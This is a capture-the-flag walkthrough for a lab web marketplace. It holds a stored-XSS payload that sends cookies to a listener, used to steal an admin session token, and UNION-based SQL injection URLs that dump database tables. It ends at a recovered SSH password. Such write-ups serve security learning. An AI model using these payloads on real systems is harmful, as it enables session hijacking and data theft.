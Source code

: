 Difficult: Medium
------------------------------------------
Note: The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. 
He said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?
------------------------------------------

Reconnaissance:
+ Scan NMAP:
```bash
	nmap -sV -vv -A -p- <IP>
	PORT      STATE SERVICE REASON         VERSION
	22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
	 2.0)
	| ssh-hostkey: 
	|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3
	lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLp
	dKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZb
	CYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3L
	RhxbF1
	|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPA
	uPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
	|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
	80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
	| http-methods: 
	|_  Supported Methods: POST OPTIONS
	|_http-title: The Marketplace
	|_http-server-header: nginx/1.19.2
	| http-robots.txt: 1 disallowed entry 
	|_/admin
	32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS
	|_http-title: The Marketplace

```

+ Scan Gobuster:
```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	/admin                (Status: 403) [Size: 392]
	/Admin                (Status: 403) [Size: 392]
	/ADMIN                (Status: 403) [Size: 392]
	/images               (Status: 301) [Size: 179] [--> /images/]
	/login                (Status: 200) [Size: 857]
	/Login                (Status: 200) [Size: 857]
	/messages             (Status: 302) [Size: 28] [--> /login]
	/new                  (Status: 302) [Size: 28] [--> /login]
	/robots.txt           (Status: 200) [Size: 31]
	/robots.txt           (Status: 200) [Size: 31]
	/signup               (Status: 200) [Size: 667]
	/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================

```

+ First, we will sign up to create a new account.
+ Create new USER "username:user1 & password:1"
+ Log in /Login with the credential which is created.

![alt text](image.png)

+ After Login successful, we can look around the web page and we find some new page like /messages and /new.
+ Check each page /new we have the page 'Add new listing' with blank fields 'Title' and 'Description'.
+ In the situation, we can try some tag html like script, h1,...

![alt text](image-2.png)

![alt text](image-1.png)

--> Bingo! The pop up message appear. We found the security vulnerability XSS
(Cross-Site Scripting).

========EXPLOIT XSS=========:

+ Back to the home page we see the page list which we created. Go inside the page /item, we have 2 features: 

![alt text](image-3.png)

+ Feature 1: Contact with the author, we will send message to current user and that is user1.
+ Feature 2: Report to admins and the message report will be sent to admin.

--> We think some ideas that we can inject XSS vuln to retrive some sensitive information about the Admin.

+ View page source:
![alt text](image-4.png)

--> We know that we can exploit XSS base cookie or sensitive access token with "document.cookie" and "document.location"

+ Open "Developer Tools" or use Burpsuite:

![alt text](image-5.png)

--> We recive the token with value encoded. Decode the value we know that is the information user1.

+ We can manipulate cookie token by XSS to grant admin and access /admin.
+ Back to home page and we will exploit code.
+ We use "Data grabber for XSS"
+ Link: "https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss"

+ Now we create the new list and create the payload which will send it to a controlled page:
```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```

![alt text](image-6.png)

+ Use netcat to open the port listen:
```bash
nc -lvkp <port>
# -l: listen mode, for inbound connects
# -v: verbose mode
# -k: set keepalive option on socket
# -p: local port number
# In the situation, we have to use -k to keep the connection when we back to home page. 
```

+ Look at the netcat:

![alt text](image-7.png)

+ We got the recieve about the token cookie that is token user1.
+ Idea in here that is we can manipulate the feature "Report to admin" in the /item to take the token ADMIN.
+ When we report to admin, netcat will capture the request to admin and recive back the token ADMIN.

![alt text](image-8.png)

![alt text](image-9.png)

--> Check netcat again and now we have the token for new user:

![alt text](image-10.png)

+ Decode the token:
```bash
{
    "userId": 2,
    "username": "michael",
    "admin": true,
    "iat": 1728993550
}
```
--> User michael with admin permission.
+ We will insert new token replace the token user1 and access again in the page /admin.

![alt text](image-11.png)

+ We see some tables with information users.
+ Idea: We will try certain characters to test with purpose detect and discover the vulnerability on a website page. In this case, we guess that is the vuln SQLi.
+ We are able to extract data form the database to the same page base SQLi vulnerability.
+ First we will use some common characters to be sure this is SQLi vulnerability :
```
' OR 1=1 | OR 1=1 --
```
+ We test ' OR 1=1 in url first user and recieve error message:

![alt text](image-14.png) 

--> It confirms the existence of an SQL Injection vulnerability.

+ We try again without (') OR 1=1:

![alt text](image-15.png)

--> It works. It is return data to the browser without displaying an error message.

==========EXPLOIT SQLi=============

+ Because we see the page return error message and right database so we are sure this is In-Band SQLi.
+ Firstly, we'll try the UNION operator so we can receive an extra result if we choose it. Try setting the mock browsers id parameter to:
```
1 UNION SELECT 1
```

![alt text](image-16.png)

--> This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column and repeat to no error message aprrear:

![alt text](image-17.png)

--> Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is displayed because it takes the first returned result somewhere in the website's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article ID from 1 to 0.


items,messages,users
table users: id, isAdministrator,password,username
table messages: id,is_read,message_content,user_from,user_to

![alt text](image-12.png)

```bash
http://<IP>/admin?user=5%20UNION%20SELECT%20group_concat(id,%20%27:%27%20,%20is_read,%20%27:%27%20,%20message_content,%20%27:%27%20,%20user_from,%20%27:%27%20,%20user_to%20SEPARATOR%20%27%3Cbr%3E%27),2,3,4%20FROM%20messages

```
![alt text](image-13.png)

--> We have the credential SSH jake:@b_ENXkGYUCAv3zJ

